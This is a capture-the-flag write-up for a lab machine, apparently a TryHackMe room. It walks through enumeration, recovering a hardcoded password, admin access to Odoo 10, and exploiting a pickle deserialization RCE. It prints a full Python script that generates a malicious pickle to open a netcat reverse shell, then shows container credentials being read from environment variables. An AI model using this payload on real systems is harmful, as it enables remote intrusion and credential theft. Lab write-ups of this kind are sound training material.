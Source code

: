 # Obscure

### Obscure
Nmap scan shows ports 21,22 and 80 open.<br />
The ftp server contains the two following files:<br />
![image](https://github.com/user-attachments/assets/e5dad07a-78b6-48b7-87af-27f4ae8e6faf)<br />
So now I know that a possible domain name might be `antisoft.thm`. Let's see this ELF file how it works. <br />
![image](https://github.com/user-attachments/assets/41de072b-792d-44a5-a00d-b4f63d72b7b0)<br />
The good new is that an ID is hardcoded in the program, if I run the `strings` command:<br />
![image](https://github.com/user-attachments/assets/59f1133a-487b-4db1-a884-de973692c329)<br />
This gets me a password:<br />
![image](https://github.com/user-attachments/assets/41b4c27b-b884-42fa-88d9-810103422cc6)<br />
With this password I'm able to download a backup of the database of the website. To do that go to `http://10.10.188.107/web/database/manager`, click on `backup` and prompt the found password. I unzip the downloaded file and it contains some interesting stuff, for example a manifest:<br />
![image](https://github.com/user-attachments/assets/7230a5db-0d5a-4fcc-815f-742ae8f0e07d)<br />
Also, after a while I remembered I had found the domain `antisoft.thm`, so I try to log in with the password I found earlier and username `admin@antisoft.thm` and it worked!. Now that I'm in, since from the manifest I saw that the version of Odoo running is 10.0, I did some reaserch and found this [authenticated remote execution](https://www.exploit-db.com/exploits/44064) vulnerability.<br />
So I follow the steps written in the POC. First search for and install `Database Anonymization`:<br />
![image](https://github.com/user-attachments/assets/9280033c-f333-4a7c-9e44-abd01f8d623b)<br />
Now go on `settings` and click `Anonymize Database`:<br />
![image](https://github.com/user-attachments/assets/cd54e119-cf91-4b92-8e27-c763077c8b37)<br />
Click on `Anonymize Database` button. Now refresh the page again:<br />
![image](https://github.com/user-attachments/assets/ded3667e-7f04-4367-aee9-d72baa9217bd)<br />
On this window we want to first upload a malicious `.pickle` file and then click on `Reverse database Anonymization`. The pickle file I'm going to upload is this:

    import pickle
    import base64
    
    class Exploit(object):
        def __reduce__(self):
            return (eval, ("__import__('os').system('nc 10.11.127.156 9001 -e /bin/sh') or ['ok']",))
    
    # Serialize the object with pickle
    payload = pickle.dumps(Exploit(), protocol=2)
    
    # Optional: base64 encode (if needed for HTTP transport)
    encoded = base64.b64encode(payload)
    
    # Save to file
    with open("payload.pickle", "wb") as f:
        f.write(payload)
    
    print("[+] Payload written to payload.pickle")
Execute this python script and it will write a payload on a file called `payload.pickle`. So I upload the file and get the reverse shell! This gets me the first flag located at `/var/lib/odoo`. Once on the system, it welcomes me with a set of database credentials!<br />
![image](https://github.com/user-attachments/assets/ba506af2-e09a-4266-82f7-04a3576372a3)<br />
The presence of a file `.dockerenv` in `/` suggets me that I'm in a docker container. I need to escape. First I need to become root on the container. So I try to connect to the DB with `psql -h db -U odoo -d postgres` using this credentials, but they are wrong. But since the script suggests that these credentials are stored in environment variables, I run `env` to see them:<br />
![image](https://github.com/user-attachments/assets/f645c1b5-8a37-4622-bc14-85df7c846e76)<br />
Infact the password is different.<br />
At this point I was stuck for a while so I decided to run linpeas, and it finds a SUID binary actually inside `/`, the root directory, which I didn't notice initially. I think I need to exploit this to become root.<br />
![image](https://github.com/user-attachments/assets/2497a4b4-24db-442d-a670-77a354622cf5)<br />





